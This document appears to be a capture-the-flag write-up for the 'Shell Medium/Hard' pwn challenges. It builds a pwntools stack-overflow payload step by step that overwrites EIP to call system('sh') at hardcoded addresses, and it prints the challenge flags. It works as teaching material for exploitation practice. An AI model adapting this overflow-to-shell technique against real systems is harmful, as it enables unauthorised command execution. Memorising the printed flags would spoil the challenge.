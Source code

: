 > **Shell Medium**
> Run a command and get the flag.
> ASLR is off on the server.
---
> **Shell Hard**
> Maybe changing the code isnt the right direction.
> Note: The binary from shell has not changed
---

The functions here are exactly the same as in the task [PWN - Never Called](../PWN%20-%20Never%20Called/PWN%20-%20Never%20Called%20(Easy).md), but only the printFlag function is different, it now takes the *command* parameter and calls *system*.

![](1.png)

Offset remains the same - 62, the address of the printFlag function is 0x5655628b.

![](2.png)
![](3.png)

Now let's try the exploit from **Never Called**, but change the payload itself to the next one to get a better understanding of what will happen.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa',
    p32(0x5655628b),
)
```

And in EDB let's see what happens in the printFlag function. We set breakpoint at address 0x5655628b. Our payload is written into the stack and output to the terminal. And the same thing happens before calling *system*.

![](4.png)
![](5.png)

We see that the last to be written from our line is 'aala'. Then we write *'sh'* instead and after it and the flaw byte to overwrite the EIP register. And add another 20 characters and see what happens to the program.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'aaaabaaacaaadaaaeaaa',
)
```

So, the program crashed when trying to address **0x61616162 (baaa)**. We get offset - 4.

![](6.png)

So after overwriting the EIP register we need to add 4 bytes and the memory address of the 'sh' line. Our command has the address **0x5655a5da**.

![](7.png)

Now let's rewrite the payload and run our exploit.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'B' * 4,
    p32(0x5655a5da)
)
```

Run the exploit command and gain control over the task container.

```sh
python3 shell.py DEBUG
```

![](8.png)

I never understood the difference between the tasks, I was just lucky that the exploit fit both tasks! Judging by the description of the Hard task, it was possible to solve the Medium task by changing the code.

---
> [**Full exploit**](shell.py)
> 
> Flag Medium: **bucket{5h331_4cc355_d8ebd45cc}**
> 
> Flag Hard: **bucket{41w4y5_check_h1dd3n_f2f31ec5}**
